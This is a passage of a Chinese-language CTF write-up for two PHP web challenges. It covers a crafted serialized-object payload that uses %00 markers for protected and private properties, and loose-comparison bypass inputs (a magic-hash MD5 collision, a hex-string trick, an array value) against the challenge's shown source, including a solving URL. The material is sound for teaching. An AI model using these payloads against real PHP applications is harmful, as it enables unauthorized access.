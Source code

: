不能过验证，因为b 和 c 是protected和private变量.可以观察上面的格式化字符串中三个变量的不同。<br />$a 是public变量，没有任何 修饰<br />$b 是protected变量，前面加了 '*'<br />$c 是private 变量，前面加了 类名 'Moe' <br />/所以猜测 protected变量的序列化标记就是'*',private变量的序列化标记就是这个“私人”变量的所有者<br />PHP中%00起到截断作用 %00二进制ASCII码转为字符含义就是null<br />（在url中%00表示ascll码中的0 ，而ascii中0作为特殊字符保留，表示字符串结束，所以当url中出现%00时就会认为读取已结束）<br />所以用%00包裹这两个标识/        此处存疑
```php
O:3:"Moe":3:{s:1:"a";s:1:"1";s:4:"%00*%00b";s:1:"2";s:6:"%00Moe%00c";s:1:"3";}
```
<a name="WJsrr"></a>
## web/三心二意
```php
<?php
$a = $_GET['a'];
$b = $_POST['b'];
$c = $_REQUEST['c'];
$d = $_COOKIE['d'];

if (!isset($a, $b, $c, $d)) {
    highlight_file(__FILE__);
} else {
    if (is_numeric($a) and $a == false) {
        echo 'A is OK!';
        echo '<br/>';
        if (!is_numeric($b) and $b == 0x125e591) {
            echo 'B is OK!';
            echo '<br/>';
            if ($c != 240610708 and md5($c) == md5(240610708)) {
                echo 'C is OK!';
                echo '<br/>';
                if (strlen($d) < 7 and $d != 0 and $d ** 2 == 0) {
                    include('/flag');
                } else {
                    echo "D is not wanted.<br/>";
                    highlight_file(__FILE__);
                }
            } else {
                echo "C is not wanted.<br/>";
                highlight_file(__FILE__);
            }
        } else {
            echo "Too young too simple.<br/>";
            highlight_file(__FILE__);
        }
    } else {
        echo "A is not wanted.<br/>";
        highlight_file(__FILE__);
    }
}
```
a 和 c都很好构造<br />[http://39.97.238.171:8002/?a=0&c=QNKCDZO](http://39.97.238.171:8002/?a=0&c=QNKCDZO)<br />b需要先转换成十进制，然后利用弱类型比较<br />b=19260817a<br />转换成十进制可能是因为最后加入的字母会和前面的一起被看成是字母而不是十六进制数字<br />d 是最骚的<br />d[]=''<br />
<br />
